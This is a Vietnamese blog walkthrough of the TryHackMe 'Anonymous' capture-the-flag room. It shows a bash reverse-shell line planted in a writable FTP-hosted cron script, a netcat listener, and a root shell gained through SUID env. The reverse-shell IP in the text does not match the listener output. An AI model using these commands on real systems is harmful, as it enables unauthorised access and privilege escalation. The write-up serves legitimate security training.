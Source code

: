 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Anonymous"
date: "2021-10-27"
tags: [
    "tryhackme",
    "ftp",
    "linux",
    "smb",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![Anonymous](/assets/img/2021-10-27-THM-Anonymous/1.png)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Anonymous](https://tryhackme.com/room/anonymous).

## Reconnaissance

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

```python
┌──(neo㉿kali)-[~]
└─$ rustscan -a 10.10.135.18 -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/neo/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.135.18:21
Open 10.10.135.18:22
Open 10.10.135.18:139
Open 10.10.135.18:445
```

Ở đây tôi có port 139 và 445, 2 port sử dụng trong SMB của Windows. À trước đó thì thử truy cập vào port 21 với Anonymous xem có gì hay ho không.

```python
ftp> ls
229 Entering Extended Passive Mode (|||36762|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||60923|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1634 Jul 30 08:50 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

Nhìn vào phân quyền của */scripts/* và file *clean.sh* thì tôi có thể sửa file. Lấy các file này về và thử kiểm tra thì tôi nhận ra đây file clean.sh chạy liên tục để ghi dữ liệu vào file *removed_files.log*. 

Từ 2 điều này tôi nghĩ rằng mình có thể thêm payload vào file thực thi sau đó put lại lên ftp server, file thực thi sẽ chạy payload và tôi sẽ có shell. Tôi dùng payload của [pentestmonkey](https://pentestmonkey.net/): `bash -i >& /dev/tcp/10.10.135.18/12345 0>&1`

Trước khi put file thì tạo listner từ local machine: `nc -lnvp 12345`

```python
ftp> put /home/neo/THM-Anonymous/clean.sh clean.sh
local: /home/neo/THM-Anonymous/clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||14310|)
150 Ok to send data.
100% |************************************************************************************************************************************************|   356        5.30 MiB/s    00:00 ETA
226 Transfer complete.
```
```python
┌──(neo㉿kali)-[~/THM-Anonymous]
└─$ nc -lnvp 12345
listening on [any] 12345 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.135.18] 34374
bash: cannot set terminal process group (1460): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
pics
user.txt
namelessone@anonymous:~$ 
```

Vậy là tôi có __user flag__.

## Privilege escalation

Tôi thử `sudo -l` nhưng bị yêu cầu password, bỏ qua cách này. Tôi để ý còn thư mục *pics*, trong này có 2 file ảnh, tôi sẽ tạo http server trên đây và *wget* 2 file này về để xem có gì đặc biệt không. Và sau 1 lúc thì không =))))

Tôi còn 1 cách khác là tìm progame với SUID của root: `find / -type f -perm -u=s 2>/dev/null`, và nó ra 1 list rất nhiều thứ, nhưng thứ đập vào mắt tôi là `/usr/bin/env`. `env` là lệnh cho phép chạy 1 chương trình khác trong môi trường tùy chỉnh mà không cần thay đổi chương tình đang chạy hiện tại. Nó khá hữu ích khi chúng ta muốn có 1 môi trường ảo để test các chương trình hay cài đặt các packages mà không muốn nó gây ảnh hưởng đến hệ thống đang hoạt động.

Tôi vào [GTFOBins](https://gtfobins.github.io/) và tìm thấy env có SUID, thử xem sao.

```python
namelessone@anonymous:~$ env /bin/sh -p
# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# whoami
root
# ls /root
root.txt
# 
```

## Conclusion

Qua bài này tôi biết thêm về `env` và cách leo thang đặc quyền với SUID. Còn lại thì cũng không có gì mới lắm.

- Đọc thêm về [env](https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line)
- Đọc thêm về [SUID](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd)


